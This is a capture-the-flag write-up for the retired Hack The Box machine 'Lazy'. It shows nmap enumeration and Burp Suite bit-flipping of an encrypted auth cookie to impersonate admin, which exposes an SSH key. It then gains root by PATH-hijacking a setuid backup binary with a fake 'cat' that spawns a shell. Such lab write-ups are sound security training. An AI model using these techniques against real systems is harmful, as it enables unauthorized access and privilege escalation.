 # Lazy

This is the write-up for the box Lazy that got retired at the 7th October 2017.
My IP address was 10.10.14.23 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.18    lazy.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/lazy.nmap 10.10.10.18
```

```markdown
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 e1:92:1b:48:f8:9b:63:96:d4:e5:7a:40:5f:a4:c8:33 (DSA)
|   2048 af:a0:0f:26:cd:1a:b5:1f:a7:ec:40:94:ef:3c:81:5f (RSA)
|   256 11:a3:2f:25:73:67:af:70:18:56:fe:a2:e3:54:81:e8 (ECDSA)
|_  256 96:81:9c:f4:b7:bc:1a:73:05:ea:ba:41:35:a4:66:b7 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: CompanyDev
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

This is what we see on the web page:

![Web Page](lazy_webpage.png)

When registering an user, the page just says that we are currently logged in as the user we used to register.
Lets examine the cookies by login out first and then login back again and intercept the request with Burpsuite.

On Burpsuite we send the request to the **Sequencer** tab to replay the login request multiple times.

![Burpsuite Sequencer](lazy_cookie-1.png)

When clicking on _Analyze_ the capture gets summarized and we want to _Copy Tokens_ and put them in a file.

![Burpsuite Sequencer](lazy_cookie-2.png)

The copied cookies vary from each other which means there is some kind of randomness in creating those.
Assuming these are encrypted strings we will try to flip the bits on a user whose name is similar to _admin_ and by flipping the characters in the cookie we can become admin.

So we register an user with a name close to _admin_ like _bdmin_ and send it to **Burpsuites Intruder** and make sure the position is on the authentication Cookie:

![Burpsuite Intruder](lazy_cookie-3.png)

As the Payload we will use the _Bit flipper_.

![Burpsuite bit flipper](lazy_cookie-4.png)

The responses with the length 1351 all show different user names in the Response like _"gdmin, Idmin, kdmin"_ and so on.
If we wait long enough it will get the result for _admin_ back, too. It has a length of 1499.
> auth:60BZd9dCWwq8hMf9HGyO5SPOBzdZzMVv

Now we can input this cookie into the browser with any plugin, refresh the page and we see an admin panel:

![Admin panel](lazy_webpage-admin.png)

On this page we can download a SSH key.

## Checking SSH (Port 22)

Now we have a SSH key that we can try to login in on the box:
```markdown
chmod 600 mysshkeywithnamemitsos

ssh -i mysshkeywithnamemitsos mitsos@10.10.10.18
```

We can login as the user _mitsos_

## Privilege Escalation

In the home directory of _mitsos_ is a binary file named **backup**. When executing it, it outputs the contents of the _/etc/shadow_ file.
There is also the _peda_ extension for **gdb** which seems to be a hint to debug this binary.
```markdown
gdb ./backup
```
```markdown
gdb-peda$ b main
Breakpoint 1 at 0x8048420
```

After running it we see that it calls _system_ and right before that it loads a variable into ESP which is and argument for _system_.

![Binary Analysis](lazy_privesc-1.png)

![Binary Analysis](lazy_privesc-2.png)

The command `cat` gets executed from _/bin/cat_. When we create our own **cat** command in a path that gets checked before, we can exploit this:
```markdown
mitsos@LazyClown:~$ which cat
/bin/cat
mitsos@LazyClown:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

The environment variable **$PATH** looks through every path until it finds the `cat` command. So we will create our own in a path before it reaches the valid one.

The fake `cat` command we create starts a shell:
```bash
#!/bin/sh

/bin/sh
```

Now we modify the environment variable **$PATH** to look in the home folder of _mitsos_ first:
```markdown
export PATH=`pwd`:$PATH
```

If we run _backup_ now, it will start a shell instead of displaying the contents of the /etc/shadow file.
The effective ID on this shell is 0 and thus we are root!

